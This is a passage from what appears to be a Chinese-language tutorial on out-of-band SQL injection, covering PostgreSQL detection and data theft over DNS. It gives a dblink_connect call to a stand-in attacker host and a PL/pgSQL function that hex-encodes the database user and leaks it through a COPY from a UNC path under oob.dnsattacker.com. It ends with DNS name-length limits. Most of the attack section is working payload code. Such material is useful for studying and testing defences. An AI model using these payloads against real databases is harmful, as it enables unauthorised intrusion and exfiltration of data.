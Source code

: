   
**限制**  
：为了使用这种技术，数据库用户应该具有 Select、update 和 File 权限。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoISgLmeibBbibt4Xpqf2Fxp29ft2oTNr8GM0nKn0oGsQliagvBVV4ybWLQ/640?wx_fmt=png&from=appmsg "")  
##### Postgresql  
###### 检测  
  
**受害者**  

```
CREATE EXTENSION dblink;SELECT dblink_connect('host=oob.dnsattacker.com user=postgres password=password dbname=dvdrental');
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoaY5N0eApbC7dd988wlJniawQTfFYL1SU7ibcUnXL1tynY4yfvAUM15wA/640?wx_fmt=png&from=appmsg "")  
  
**限制**  
：用户必须具有超级用户权限才能执行 CREATE EXTENSION 查询  
###### 漏洞利用/数据窃取  
  
**受害者**  

```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
    SELECT INTO query_result (SELECT encode(convert_to(concat(user,'     '), 'UTF8'),'hex'));
    exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.oob.dnsattacker.com\\\\foobar.txt\'';
    EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoPicDibWVfUM8cO7OFQJBNnXeZnIg5SMg7rfWlCom6NnSictzI0jG50MmQ/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
用户必须具有超级用户权限才能执行此命令  
## 使用 DNS 进行数据窃取的限制  
- 域名最多可以有 127 个子域。  
  
- 每个子域最多可以有 63 个字符长度。  
  
- 完整域名的最大长度为 253 个字符。  
  